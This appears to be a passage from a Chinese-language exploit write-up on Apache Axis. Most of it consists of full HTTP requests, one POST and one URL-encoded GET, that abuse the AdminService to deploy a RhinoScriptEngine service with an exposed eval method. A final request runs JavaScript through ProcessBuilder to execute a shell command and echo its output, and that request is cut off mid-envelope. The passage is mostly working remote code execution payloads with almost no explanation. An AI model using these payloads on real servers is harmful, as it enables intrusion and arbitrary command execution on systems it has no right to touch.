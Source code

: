### com.sun.script.javascript.RhinoScriptEngine
JDK<=7才存在的类，用来解析javascript
![](https://img-blog.csdnimg.cn/cb69a64c0aaa476198f33813340b842d.png)

POST请求：
```xml
POST /axis/services/AdminService HTTP/1.1
Host: 127.0.0.1:8080
Content-Type: text/xml; charset=utf-8
SOAPAction: ""
Content-Length: 917

<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" >
  <soap:Body>
    <deployment
      xmlns="http://xml.apache.org/axis/wsdd/"
      xmlns:java="http://xml.apache.org/axis/wsdd/providers/java">
        <service name="RhinoScriptEngineService" provider="java:RPC">
          <parameter name="className" value="com.sun.script.javascript.RhinoScriptEngine" />
          <parameter name="allowedMethods" value="eval" />
          <typeMapping deserializer="org.apache.axis.encoding.ser.BeanDeserializerFactory"
                     type="java:javax.script.SimpleScriptContext"
                     qname="ns:SimpleScriptContext"
                     serializer="org.apache.axis.encoding.ser.BeanSerializerFactory"
                     xmlns:ns="urn:beanservice" regenerateElement="false">
          </typeMapping>
        </service>
    </deployment>
  </soap:Body>
</soap:Envelope>
```
GET请求：
```
GET /axis/services/AdminService?method=!--%3E%3Cdeployment%20xmlns%3D%22http%3A%2F%2Fxml.apache.org%2Faxis%2Fwsdd%2F%22%20xmlns%3Ajava%3D%22http%3A%2F%2Fxml.apache.org%2Faxis%2Fwsdd%2Fproviders%2Fjava%22%3E%3Cservice%20name%3D%22RhinoScriptEngineService%22%20provider%3D%22java%3ARPC%22%3E%3Cparameter%20name%3D%22className%22%20value%3D%22com.sun.script.javascript.RhinoScriptEngine%22%20%2F%3E%3Cparameter%20name%3D%22allowedMethods%22%20value%3D%22eval%22%20%2F%3E%3CtypeMapping%20deserializer%3D%22org.apache.axis.encoding.ser.BeanDeserializerFactory%22%20type%3D%22java%3Ajavax.script.SimpleScriptContext%22%20qname%3D%22ns%3ASimpleScriptContext%22%20serializer%3D%22org.apache.axis.encoding.ser.BeanSerializerFactory%22%20xmlns%3Ans%3D%22urn%3Abeanservice%22%20regenerateElement%3D%22false%22%3E%3C%2FtypeMapping%3E%3C%2Fservice%3E%3C%2Fdeployment HTTP/1.1
Host: 127.0.0.1:8080
```
通过get或post请求部署完成后，访问刚才部署的service并调用它的eval方法，还可以回显：
```xml
POST /axis/services/RhinoScriptEngineService HTTP/1.1
Host: 127.0.0.1:8080
Content-Type: text/xml; charset=utf-8
SOAPAction: ""
Content-Length: 702

<soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:jav="http://javascript.script.sun.com">
  <soapenv:Body>
    <eval xmlns="http://127.0.0.1:8080/services/scriptEngine">
     <arg0 xmlns="">
     <![CDATA[function test(){var pb = new java.lang.ProcessBuilder('cmd.exe','/c','whoami');var process = pb.start();var ret = new java.util.Scanner(process.getInputStream()).useDelimiter('\\A').next();return ret;}test();]]>
     </arg0>
     <arg1 xmlns="" xsi:type="urn:SimpleScriptContext" xmlns:urn="urn:beanservice">
     </arg1>
```